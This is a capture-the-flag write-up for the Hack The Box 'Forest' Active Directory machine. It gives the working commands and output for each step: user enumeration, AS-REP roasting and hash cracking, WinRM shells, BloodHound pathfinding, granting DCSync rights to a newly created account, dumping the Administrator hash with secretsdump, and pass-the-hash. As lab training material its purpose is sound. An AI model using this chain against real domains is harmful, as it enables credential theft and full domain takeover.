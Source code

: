 ```yaml
---
target_ip: 10.10.10.161
platform: HTB
difficulty: Easy
os: Windows
date_started: 2025-06-14
status: in_progress
services: ['kpasswd5', 'microsoft-ds', 'msrpc', 'netbios-ssn', 'kerberos-sec', 'domain', 'ldap', 'ncacn_http', 'http', 'tcpwrapped']
techniques_used: []
tools_used: [nmap]
---
```


# Forest

**Platform:** HTB | **Difficulty:** Easy | **OS:** Windows | **Date:** 14/06/2025

## Summary

## Reconnaissance

```bash
nmap -sC -sV -T4 10.10.10.161 -oA nmap/forest
```

| Port | Service      | Version                                         |
| ---- | ------------ | ----------------------------------------------- |
| 53   | domain       | Simple DNS Plus                                 |
| 88   | kerberos-sec | Microsoft Windows Kerberos                      |
| 135  | msrpc        | Microsoft Windows RPC                           |
| 139  | netbios-ssn  | Microsoft Windows netbios-ssn                   |
| 389  | ldap         | Microsoft Windows Active Directory LDAP         |
| 445  | microsoft-ds | Windows Server 2016 Standard 14393 microsoft-ds |
| 464  | kpasswd5     | N/A                                             |
| 593  | ncacn_http   | Microsoft Windows RPC over HTTP 1.0             |
| 636  | tcpwrapped   | N/A                                             |
| 3268 | ldap         | Microsoft Windows Active Directory LDAP         |
| 3269 | tcpwrapped   | N/A                                             |
| 5985 | http         | Microsoft HTTPAPI httpd 2.0                     |

## Enumeration

Generated and appended a hosts file to `/etc/hosts` to avoid possible DNS issues later on with Kerberos.
```bash
nxc smb '10.10.10.161' --generate-hosts-file files/hosts && sudo tee -a /etc/hosts < files/hosts

tail -n 1 /etc/hosts
10.10.10.161     FOREST.htb.local FOREST
```

Enumerated the domain users.
```bash
nxc ldap 'FOREST' -u '' -p '' -d 'htb.local' --active-users | awk '{print $5}' | grep -v '^[H,\[,-]' > files/users.txt && cat files/users.txt 


Administrator
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

## Exploitation

I used the `users.txt` list to exploit accounts with 
```bash
nxc ldap 'FOREST' -u files/users.txt  -p '' -d 'htb.local' --asreproast files/roast.txt     

...
LDAP        10.10.10.161    389    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:d92213ff872a80624a412d802a52b446$...
```

I then cracked its AS-REP hash with `hashcat` to reveal its password `s3rvice`.
```bash
hashcat -m 18200 -a 0 files/roast.txt /usr/share/wordlists/rockyou.txt

...
$krb5asrep$23$svc-alfresco@HTB.LOCAL:b73c81fb8c33164c016884a6be75e669$2beb8c478e9b6f4b0b1ee2aeaba1821f22f189957bf8b9ee4f15f5ac1317a7c3678fd71f9fc0d926a3529dbfed42c26bf119bf475f96a38af3bdb1b0c6085cff57e63015e95b3fec76271c4736df2fb34c46edbca9614f05eee7e8c2c0e524aa2acd07de8a1b17feb7380c29ea75f86f328868bc893b9a36f41ba6f67ff3a02ff4ce1e2784868cc156b91ab5f5aa3a3f91e61fca6b61ab70dbd9e20a0f49a653078d638bf2588ad564c1c91d601cc07f7fc10b0e22f4b5803a0e8540eef8f2e1e9fd3e45525337b6ca0ef27788ae6ef610822c8e0147fd9b39919e8739a872ca3584d7658274:s3rvice
...
```

Discovered I could login to the service account via `winrm` on port `5985`.
```bash
nxc winrm 'FOREST' -u 'svc-alfresco' -p 's3rvice' -d 'htb.local'

WINRM       10.10.10.161    5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) 
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

Used `evil-winrm` to get a remote shell.
```bash
evil-winrm -i 'FOREST' -u 'htb.local\svc-alfresco' -p 's3rvice'

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

User flag was in `svc-alfresco`'s Desktop.
```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> more ../Desktop/user.txt
```

## Privilege Escalation

SharpHound was already on the machine in the `svc-alfresco` user's home directory. I ran it to collect everything.
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco> .\hound.exe -c all --zipfilename loot.zip

...
 118 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2025-06-14T16:09:59.0652881-07:00|INFORMATION|SharpHound Enumeration Completed at 4:09 PM on 6/14/2025! Happy Graphing!
```

And downloaded it to my machine.
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco> download 20250614160957_loot.zip
                                        
Info: Downloading C:\Users\svc-alfresco\20250614160957_loot.zip to 20250614160957_loot.zip                  
```

So I started Bloodhound
```bash
sudo ./bloodhound-cli containers start

[+] Checking the status of Docker and the Compose plugin...
[+] Starting the BloodHound environment
[+] Running `docker` to restart containers with docker-compose.yml...
```

Imported the SharpHound data `20250614160957_loot.zip` and run a Custom Cypher Query to view the shortest path from owned principles to tier 0:
```
MATCH p = allShortestPaths((u:User)-[:AbuseTGTDelegation|AllowedToDelegate|HasSIDHistory|ADCSESC1|CanPSRemote|HasSession|ADCSESC10a|CanRDP|MemberOf|ADCSESC10b|CoerceAndRelayNTLMToADCS|Owns|ADCSESC13|CoerceAndRelayNTLMToLDAP|OwnsLimitedRights|ADCSESC3|CoerceAndRelayNTLMToLDAPS|ReadGMSAPassword|ADCSESC4|CoerceAndRelayNTLMToSMB|ReadLAPSPassword|ADCSESC6a|CoerceToTGT|SameForestTrust|ADCSESC6b|Contains|SpoofSIDHistory|ADCSESC9a|DCFor|SQLAdmin|ADCSESC9b|DCSync|SyncedToEntraUser|AddAllowedToAct|DumpSMSAPassword|SyncLAPSPassword|AddKeyCredentialLink|ExecuteDCOM|WriteAccountRestrictions|AddMember|ForceChangePassword|WriteDacl|AddSelf|GPLink|WriteGPLink|AdminTo|GenericAll|WriteOwner|AllExtendedRights|GenericWrite|WriteOwnerLimitedRights|AllowedToAct|GoldenCert|WriteSPN*1..]->(b:Base))
WHERE "owned" IN split(u.system_tags, " ")
  AND "admin_tier_0" IN split(b.system_tags, " ")
RETURN p
LIMIT 1000
``` 

To reveal that the service account is apart of the "`Account Operators`" group, which has permission to add users to the "`Exchange Windows Permissions`" group. This group - usually for legitimate reasons - has `WriteDACL` over the domain, leaving it vulnerable to a "DCSync" attack.
![[Pasted image 20250615014133.png]]
To perform the DCSync attack, I firstly created a new credential object and domain user account called "wither"
```powershell
$SecPass = ConvertTo-SecureString 'password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB.LOCAL\\wither', $SecPass)
New-ADUser -Name "wither" -SamAccountName "wither" -AccountPassword $SecPass -Enabled $true
```

Then added it to the "Exchange Windows Permissions" group.
```powershell
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members wither
```

So I could then give it DCSync permissions. 
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -PrincipalIdentity wither -Rights DCSync -TargetIdentity "DC=htb,DC=local" -Credential $Cred -Verbose

...
Verbose: [Add-DomainObjectAcl] Granting principal CN=wither,CN=Users,DC=htb,DC=local 'DCSync' on DC=htb,DC=local
...
```
>[!info] Important to note, `-Credential` using `wither`'s credential object was vital here for the attack to work, as I needed `Add-DomainObjectAcl` to run under the context of that account (as it was a member of "Exchange Windows Permissions" and thus had permission to modify ACLs) and not `svc-alfresco`.


And use it to dump the `Administrator`'s password hash.
```bash
wither@kali:~/CTF/HTB/Forest/files$ secretsdump.py 'HTB'/'wither':'password'@'FOREST' 

...
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
...
[*] Kerberos keys grabbed
...
[*] Cleaning up...
```

Which I could then "Pass" in `evil-winrm` to get a shell.
```bash
evil-winrm -i 'FOREST' -u 'htb.local\Administrator' -H 32693b11e6aa90eb43d32c72a07ceea6

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

And get the root flag in the `Administrator`'s Desktop.
```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> more ..\Desktop\root.txt
```

## References

- [ASREPRoast \| NetExec](https://www.netexec.wiki/ldap-protocol/asreproast)
- [AS-REP Roasting \| Red Team Notes](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)
- [bloodhoundce-resources/custom\_queries/BloodHound\_CE\_Custom\_Queries.md at main · CompassSecurity/bloodhoundce-resources · GitHub](https://github.com/CompassSecurity/bloodhoundce-resources/blob/main/custom_queries/BloodHound_CE_Custom_Queries.md)
- [HackTricks/windows-hardening/active-directory-methodology/dcsync.md at master · b4rdia/HackTricks · GitHub](https://github.com/b4rdia/HackTricks/blob/master/windows-hardening/active-directory-methodology/dcsync.md)
- [AD Series \| DC Sync Attacks. DCSync Attack is a type of “credential… \| by Urshila Ravindran \| Medium](https://medium.com/@urshilaravindran/ad-series-dc-sync-attacks-e76bb54308f5)


 ![[Pasted image 20250615015812.png]]




---
#forest #htb #easy #windows #netexec #asreproast #hashcat #evil-winrm #bloodhound #sharphound #dcsync #pass-the-hash
